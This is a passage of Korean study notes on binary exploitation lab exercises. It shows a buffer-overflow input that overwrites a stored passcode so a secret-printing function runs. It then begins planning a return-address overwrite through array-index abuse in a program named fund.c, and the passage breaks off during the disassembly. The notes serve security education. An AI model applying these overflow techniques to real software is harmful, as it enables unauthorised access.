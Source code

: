 그렇다면 `scanf()`에 `byte * 0x20 + user define passcode + "\0x00"`를 전달하면 passcode를 수정할 수 있다.
String으로 인식해야하므로 뒤에 Null 문자`\0x00`을 집어넣는 것도 잊지 말자.

🔫 그렇다면 전체 Exploit 과정은 다음과 같다.
1. 첫 입력 시 passcode 수정
2. 두 번째 입력 시 수정한 passcode의 값 입력
```
(Trial 1) What is the passcode? : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHiImHacker
Wrong passcode!
(Trial 2) What is the passcode? : HiImHacker
Secret file content is: 20d33c6e
```

이렇게 하면 밑의 `main()`의 if문을 통과하면서 `print_secret()`를 수행할 수 있게된다.
```c
if (strcmp(input, passcode) == 0) {   // input = "HiImHacker", passcode = "HiImHacker"
    print_secret();                   // Executed!
}
```

#### Chat GPT

글자 "HiImHacker"를 전달하고 싶은데 Byte 변환을 하지 않고 String 그대로 전달하였더니 오류가 나 지피티에게 물어보았다.
다음과 같은 답변을 얻을 수 있었다.
![600](../../../../Z.%20Docs/img/Pasted%20image%2020241016035932.png)

----------------------

## 2-4 `fund.c`
> Key Idea: `item[]` 인덱스 접근을 이용한 return address 수정

#### Observation

어셈블리 코드를 살펴보기 전, 먼저 C 코드를 잘 살펴보자.
이 코드의 경우 **2-3**처럼 `print_secret()`을 출력해주는 조건문이 없으로 **2-1**처럼 return address를 수정하여 secret 함수에 접근하는 exploit 방법을 써야한다는 것을 알 수 있다.

Canary가 적용되어있기에, 그나마 가능성있는 접근법을 생각해보자면 `item[]`의 인덱스 접근을 이용하는 것이다.
그렇다면 `item[]`에 접근 중인 `renalance_portfolio()`에서 인덱스 변수에 적절한 값을 전달하여 return address를 고쳐야 한다는 뜻이다.

먼저 `disas rebalance_portfolio`를 통해 어셈블리 코드를 관찰해보자.
```nasm
Dump of assembler code for function rebalance_portfolio:
   0x00000000004013a3 <+0>:     push   %r12
   0x00000000004013a5 <+2>:     push   %rbp
   0x00000000004013a6 <+3>:     push   %rbx
   ...
   0x000000000040140d <+106>:   pop    %rbx
   0x000000000040140e <+107>:   pop    %rbp
   0x000000000040140f <+108>:   pop    %r12
```
여태까지 봐왔던 rsp인자를 왔다갔다 하는 구조가 아니다.
